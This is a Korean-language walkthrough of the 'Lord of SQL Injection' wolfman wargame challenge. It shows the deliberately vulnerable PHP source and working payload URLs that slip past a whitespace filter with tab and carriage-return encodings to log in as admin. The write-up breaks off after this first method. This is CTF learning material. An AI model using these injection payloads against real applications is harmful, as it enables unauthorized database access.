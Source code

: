 Lord of SQL Injection No.5 - wolfman
=============
```

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
  if($result['id'] == 'admin') solve("wolfman");
  highlight_file(__FILE__);
?>
```
위 문제에서 알 수 있는 것
-------------
preg_match로 인해 . ()가 $_GET[pw]에 들어 있으면 No Hack ~_~이 뜨면서 문제풀이에 실패하게 된다.
preg_match로 인해 공백이 $_GET[pw]에 들어 있으면 No whitespace ~_~가 뜨면서 문제풀이에 실패하게 된다.
id값에는 guest라는 값이 고정되어 있으므로 pw에 값을 넣어 조작해야한다.
DB에 저장된 id가 admin이면 문제가 풀리게 된다.

문제 풀이 법
-------------
1) 공백 우회
스페이스바 %20 대신 Tab(%09),Carrage Return(%0d) 등을 이용한다.
los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=123'or%09id='admin'--%09-
los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=123'or%0did='admin'--%0d-
